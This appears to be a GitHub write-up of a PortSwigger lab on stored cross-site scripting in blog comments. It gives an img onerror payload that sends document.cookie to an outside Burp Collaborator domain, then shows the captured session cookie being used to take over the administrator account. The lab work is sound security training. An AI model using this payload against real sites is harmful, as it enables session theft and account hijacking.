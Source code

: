 ## Lab Description :


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/2111f083-5fc7-4a9e-be03-80e7a41c76eb)


## Solution :

From what I read on the lab’s description, the vulnerability is in the blog comments function. So, let’s take a look at the comment function.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a8715b70-04e9-4e01-920a-89522c4d1178)

Let’s check if either of them is vulnerable to XSS by using a simple payload:

> javascript code to make HTTP request to external domain.

>  javascript has methods and API to make HTTP requests.

 So the payload will be
 
 ```js
<img src=x onerror=this.src='http://domain/?'+document.cookie;>
```

we willl use `burp collaborator` to generate a domain name for us then we use  that domain name in our xss payload.

Go to burp  collaborator window and copy the  collaborator payload ie our domain.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/52294b9c-f23d-4228-a3b8-38960fcca153)

Then go and press `poll now` collaborator.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/b953e58a-fbcb-43c4-aa20-cc19dc70bf03)

As we see there are a few http interactions i choose any one of the http requests and click on `request to collaborator` tab.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6f368385-5ef2-46c3-bf94-946f10dbcfb7)

Looking at the get request we see a `url` parameter called `session` and its value  is the session cookie of the victim user which was captured and sent to the burp collaborator by our xss payload.

session cookie value=`W6HvkaYQcVhLZ45KZ93P8oZSL0OEqd9g`

Lets copy the session value and and go to the web browser and turn on `burop intercept` and then click on my account.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4d68af5c-a725-4f15-a610-a3020229b658)

change the coookie value with session cookie value what we have.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/811e931e-fb8b-4c44-a662-5893660bf6af)

Now we can see the web application saying that your `username is:administrator`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3c2eb2e2-9340-46f5-831f-f077fb597377)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/86414c70-3068-4ae0-ade6-a9905ece9b17)






